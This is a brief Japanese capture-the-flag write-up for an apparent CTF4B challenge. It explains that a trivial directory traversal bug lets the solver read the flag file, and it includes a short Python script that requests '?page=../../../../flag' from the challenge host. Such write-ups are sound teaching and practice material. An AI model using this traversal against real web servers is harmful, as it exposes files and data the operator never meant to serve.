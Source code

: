 自明な Directory Traversal 脆弱性があるので、問題文で指定されたファイルを読むだけ。

```python
import requests
import os

def main():
    response = requests.get(
        f"http://{os.getenv('CTF4B_HOST')}:{os.getenv('CTF4B_PORT')}/?page=../../../../flag",
    )
    print(f"[*] FLAG: {response.text}")

if __name__ == '__main__':
    main()
```

